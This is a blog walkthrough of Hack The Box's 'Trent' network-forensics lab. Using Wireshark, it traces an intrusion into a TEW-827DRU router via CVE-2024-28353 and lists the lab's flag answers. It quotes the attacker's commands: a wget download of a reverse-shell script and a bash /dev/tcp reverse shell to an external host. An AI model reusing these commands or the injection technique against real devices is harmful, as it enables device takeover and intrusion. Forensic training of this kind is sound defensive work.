 ```yaml
---
title: Trent Lab Walkthrough
date: '2025-04-01'
tags: ['hackthebox', 'walkthroughs', 'network-forensics', 'wireshark']
draft: false
summary: Step-by-step walkthrough of HTB's Trent Lab
images: ['']
layout: PostSimple
---
```


![trent](/static/images/HackTheBox/Trent/Trent.png)

<TOCInline toc={props.toc} asDisclosure />

## Before getting started

This is a medium-level Network Forensics Lab by Hack The Box. To complete this lab, you'll need to use Wireshark for packet analysis. However, you may also utilize other tools such as NetworkMiner.

Start by downloading the provided ZIP file, which contains the packet capture file required to solve this lab. After extracting, open the packet capture using Wireshark, and let's start hunting for flags.

## Sherlock Scenario

The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

### Q1 From what IP address did the attacker initially launched their activity?

- To answer this question, let's start by identifying the type of traffic we are dealing with. We can observe multiple protocols such as NetBIOS, UDP, TCP, SMB, and HTTP.  
  ![Q1](/static/images/HackTheBox/Trent/Q1.png)
- Since the scenario revolves around a router, let's check if the attacker attempted to log into the router's management console via a browser (SSH is not being used). We should analyze HTTP GET/POST requests first.

```
http.request.method == POST
```

- Using the query above, we can see multiple **POST** requests containing credentials being submitted on the `/apply_sec.cgi` page. Let's follow the HTTP stream of the first packet, as shown in the screenshot.  
  ![Q1-1](/static/images/HackTheBox/Trent/Q1-1.png)
- From this analysis, we can deduce two key details: the router's IP address is **192.168.10.1**, and the attacker's IP address is **192.168.10.2**.  
  ![Q1-2](/static/images/HackTheBox/Trent/Q1-2.png)

```
192.168.10.2
```

### Q2 What is the model name of the compromised router?

- If you solved Q1, you should have no trouble with this question. The compromised router's model name is clearly visible.  
  ![Q2](/static/images/HackTheBox/Trent/Q2.png)

```
TEW-827DRU
```

### Q3 How many failed login attempts did the attacker try before successfully logging into the router?

```
http.request.method == POST && (ip.src == 192.168.10.2 && ip.dst== 192.168.10.1)
```

- Using the query above, we can see that the first two login attempts resulted in failure. This can be verified by following the HTTP stream of any of the first two packets.  
  ![Q3](/static/images/HackTheBox/Trent/Q3.png)
- The attacker was prompted to enter an authentication code, but no code was submitted, as there were no further interactions after receiving this response.  
  ![Q3-1](/static/images/HackTheBox/Trent/Q3-1.png)
- The attacker lacked access to the authenticator for the first two accounts, but the third login attempt was successful. Therefore, the flag is **2**, as the attacker failed twice.

```
2
```

### Q4 At what UTC time did the attacker successfully log into the routers web admin interface?

- As discussed in Q3, the successful login occurred after two failed attempts. The `Arrival Time` of the third POST request (successful login) is our answer.  
  ![Q4](/static/images/HackTheBox/Trent/Q4.png)

```
2024-05-01 15:53:27
```

### Q5 How many characters long was the password used to log in successfully?

- The screenshot below shows that the attacker did not use any characters in their password. The field was completely blank, yet the login was successful.
  ![Q5](/static/images/HackTheBox/Trent/Q5.png)

```
0
```

### Q6 What is the current firmware version installed on the compromised router?

- In the screenshot below, attacker is seen setting up a reverse shell for **Code Execution**.
  ![Q6](/static/images/HackTheBox/Trent/Q6.png)
- Since we already know the compromised router model, let's use our OSINT skills for further research.  
  ![Q6-1](/static/images/HackTheBox/Trent/Q6-1.png)
- The first link in the search results contains findings from NIST's NVD (National Vulnerability Database). Here, we see that the CVE exploited for this RCE vulnerability corresponds to firmware version `2.10`.  
  ![Q6-2](/static/images/HackTheBox/Trent/Q6-2.png)

```
2.10
```

### Q7 Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?

- By analyzing the parameters in each POST request, we follow the HTTP stream of the third-last packet.  
  ![Q7](/static/images/HackTheBox/Trent/Q7.png)
- The attacker manipulated the `usbapps.config.smb_admin_name` parameter in multiple POST requests.  
  ![Q7-1](/static/images/HackTheBox/Trent/Q7-1.png)

```
usbapps.config.smb_admin_name
```

### Q8 What is the CVE number associated with the vulnerability that was exploited in this attack?

- If you answered Q6, this question should be straightforward. You can refer back to Q6 for details on how we found the CVE number.
  ![Q6-2](/static/images/HackTheBox/Trent/Q6-2.png)

```
CVE-2024-28353
```

### Q9 What was the first command the attacker executed by exploiting the vulnerability?

- By analyzing the fifth frame using the previous query, we can see that the first executed command was `whoami`
  ![Q9](/static/images/HackTheBox/Trent/Q9.png)

```
whoami
```

### Q10 What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?

- Right after the `whoami` command, the attacker executed another command to download a script for setting up a reverse shell.
  ![Q10](/static/images/HackTheBox/Trent/Q10.png)
- You can further analyze and explore this script by exporting it. You can also hunt for other requests containing this script using the query: `http matches 'a1l4m.sh'`.

```
wget http://35.159.25.253:8000/a1l4m.sh
```

### Q11 Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?

- Upon following the HTTP stream of the POST request containing the command `wget http://35.159.25.253:8000/a1l4m.sh`, we can see in the stream that the response received was `Access to this resource is forbidden`.
  ![Q11](/static/images/HackTheBox/Trent/Q11.png)

```
Access to this resource is forbidden
```

### Q12 What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)

- The screenshot below displays the command used for the reverse shell:  
  `bash -i › /dev/tcp/35.159.25.253/41143 0<81 2>&1`.
  ![Q12](/static/images/HackTheBox/Trent/Q12.png)
- The IP address and port number are **35.159.25.253** and **41143**, respectively.

```
35.159.25.253:41143
```

![thank-you](/static/images/HackTheBox/Trent/thank-you.png)
